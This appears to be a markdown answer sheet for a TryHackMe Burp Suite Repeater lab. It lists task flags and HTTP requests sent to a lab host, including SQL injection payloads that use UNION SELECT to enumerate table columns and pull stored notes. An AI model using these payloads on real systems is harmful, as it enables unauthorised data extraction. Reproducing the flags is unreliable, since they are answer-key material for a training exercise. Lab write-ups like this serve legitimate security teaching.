 # THM - Burp Suite: Repeater

<br>

## Task 4

### Task 4.2

> Render

<br>

## Task 6

### Task 6.3

> THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}

<br>

## Task 7

### Task 7.2

```http
GET /products/-1 HTTP/1.1
Host: 10-10-239-63.p.thmlabs.com
```

> THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}

<br>

## Task 8

https://10-10-239-63.p.thmlabs.com/about/2

```http
GET /about/2' HTTP/1.1
Host: 10-10-239-63.p.thmlabs.com
```

```http
GET /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people" HTTP/1.1
Host: 10-10-239-63.p.thmlabs.com
```

### Task 8.7

```http
GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1 HTTP/1.1
Host: 10-10-239-63.p.thmlabs.com
```

> THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}

